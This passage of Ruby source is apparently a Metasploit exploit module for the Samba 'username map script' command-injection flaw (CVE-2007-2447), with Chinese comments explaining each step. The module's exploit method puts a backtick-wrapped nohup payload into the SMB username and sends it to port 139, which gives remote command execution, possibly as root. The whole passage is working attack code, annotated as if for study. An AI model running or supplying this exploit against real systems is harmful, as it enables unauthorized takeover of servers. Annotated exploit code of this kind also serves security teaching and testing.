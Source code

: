 ```
          [ 'URL', 'http://labs.idefense.com/intelligence/vulnerabilities/display.php?id=534' ],
          [ 'URL', 'http://samba.org/samba/security/CVE-2007-2447.html' ]
        ],
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'Privileged'     => true, # root or nobody user
      'Payload'        =>
        {
          'Space'    => 1024,
          'DisableNops' => true,
          'Compat'      =>
            {
              'PayloadType' => 'cmd',
              # *_perl and *_ruby work if they are installed
              # mileage may vary from system to system..
            }
        },
      'Targets'        =>
        [
          [ "Automatic", { } ]
        ],
      'DefaultTarget'  => 0,
      'DisclosureDate' => 'May 14 2007'))

    # 模块配置参数，使用的远程端口号默认为 139
    register_options(
      [
        Opt::RPORT(139)
      ], self.class)
  end


  # 攻击过程
  def exploit
    
    # 连接目标服务 139 端口
    connect

    # 使用 payload 构建用户名，其中包含的 nohup 用来让命令在后台运行而不退出
    username = "/=`nohup " + payload.encoded + "`"
    
    # 进行 Samba 客户端连接操作，发送命令触发漏洞，如果出错则退出
    begin
      simple.client.negotiate(false)
      simple.client.session_setup_no_ntlmssp(username, rand_text(16), datastore['SMBDomain'], false)
    rescue ::Timeout::Error, XCEPT::LoginError
      # nothing, it either worked or it didn't ;)
    end

    handler
  end

end
```
